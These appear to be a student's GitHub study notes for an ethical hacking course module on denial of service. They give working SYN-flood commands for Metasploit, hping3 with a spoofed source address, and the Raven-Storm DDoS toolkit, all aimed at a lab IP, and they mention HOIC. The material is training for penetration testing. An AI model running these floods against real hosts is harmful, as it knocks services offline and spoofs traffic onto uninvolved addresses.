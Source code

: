 # Module 10

## Denial of Service
DoS and DDoS attacks exploit vulnerabilities in the implementation of TCP/IP model protocol or bugs in a specific OS.

<img width="893" height="257" alt="image" src="https://github.com/user-attachments/assets/7fa5619c-c90c-4b3d-90ad-56143fc6fee8" />
<img width="768" height="259" alt="image" src="https://github.com/user-attachments/assets/e76dfae2-45b0-458f-9ab4-1db6925c83dd" />
<img width="768" height="230" alt="image" src="https://github.com/user-attachments/assets/e44eeaa4-7406-4262-b2fc-b88e4741b644" />

---

### 1. Perform DOS and DDOS with various techniques
As an expert ethical hacker or pen tester, you must have the required knowledge to perform DoS and DDoS attacks to be able to test systems in the target network.

#### 1.1 Perform DOS (syn flooding) using Metasploit
- `use auxiliary/dos/tcp/synflood` \\It's an auxiliary module designed for Denial of Service attacks that works by flooding a target with TCP SYN packets.
- `set RHOST 192.168.18.110` \\This sets the Remote HOST (the target). You are telling Metasploit, "Launch the attack against the machine with the IP address 192.168.18.110."
- `set RPORT 21` \\This sets the Remote PORT on the target machine. Port 21 is the default port for FTP (File Transfer Protocol)
- `set SHOST 192.168.18.1` \\This sets the Source HOST IP address for the attack packets. You are spoofing your IP address.
- `exploit` \\Finally executes the module and launches the attack.

#### 1.2 Perform DOS attack using HPing3
- `hping3 -S 192.168.18.110 -a 192.168.18.1 -p 22 --flood`
  - `-S` sets the syn flag
  - `-a` spoof the address
  - `--flood`  sends a large no of packets

**Ping of death**
- `hping3 -d 65538 -S -p 22 --flood 192.168.18.110`
  - `-d` sets the data size

#### 1.3 Perform a DOS attack using Rven-Storm
[GitHub - Tmpertor/Raven-Storm: Raven-Storm is a powerful DDoS toolkit for penetration tests, including attacks for several protocols written in python. Takedown many connections using several exotic and classic protocols.](https://github.com/Tmpertor/Raven-Storm)
- `sudo rst`
- `l4`
- `ip 192.168.18.110`
- `port 8080`
- `threads 20000`
- `run`

#### 1.4 Perform DDOS using HOIC
<img width="768" height="340" alt="image" src="https://github.com/user-attachments/assets/7b065862-bfd2-48b6-ae7b-49583312195f" />
